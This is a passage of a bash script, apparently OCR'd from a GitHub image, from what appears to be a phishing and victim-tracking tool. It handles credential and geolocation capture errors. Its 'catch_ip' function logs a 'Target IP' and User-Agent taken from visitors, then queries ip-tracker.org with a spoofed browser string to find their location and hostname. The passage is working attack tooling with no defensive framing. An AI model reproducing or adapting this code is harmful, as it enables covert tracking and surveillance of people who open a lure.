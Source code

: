 rm -rf server/error.txt
getcredentials
elif [[ $checkerror == 2 ]]; then
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Geolocation Unavailable ...\e[0m\n"

rm -rf server/error.txt
getcredentials
elif [[ $checkerror == 3 ]]; then
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Time Out ...\e[0m\n"

rm -rf server/error.txt
getcredentials
elif [[ $checkerror == 4 ]]; then
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Unknow Error ...\e[0m\n"

rm -rf server/error.txt
getcredentials
else
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Error reading file error.txt...\e[0m\n"
exit 1
fi
fi
sleep 0.5



done 


}

catch_ip() {
touch server/saved.geolocate.txt
ip=$(grep -a 'IP:' server/ip.txt | cut -d " " -f2 | tr -d '\r')
IFS=$'\n'
ua=$(grep 'User-Agent:' server/ip.txt | cut -d '"' -f2)
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Target IP:\e[0m\e[1;77m %s\e[0m\n" $ip
printf "\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] User-Agent:\e[0m\e[1;77m %s\e[0m\n" $ua
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Saved:\e[0m\e[1;77m server/saved.ip.txt\e[0m\n"
cat server/ip.txt >> server/saved.ip.txt


if [[ -e iptracker.log ]]; then
rm -rf iptracker.log
fi

IFS='\n'
iptracker=$(curl -s -L "www.ip-tracker.org/locator/ip-lookup.php?ip=$ip" --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.31 (KHTML, like Gecko) Chrome/26.0.1410.63 Safari/537.31" > iptracker.log)
IFS=$'\n'
continent=$(grep -o 'Continent.*' iptracker.log | head -n1 | cut -d ">" -f3 | cut -d "<" -f1)
printf "\n"
hostnameip=$(grep  -o "</td></tr><tr><th>Hostname:.*" iptracker.log | cut -d "<" -f7 | cut -d ">" -f2)
if [[ $hostnameip != "" ]]; then
printf "\e[1;92m[*] Hostname:\e[0m\e[1;77m %s\e[0m\n" $hostnameip
fi
##
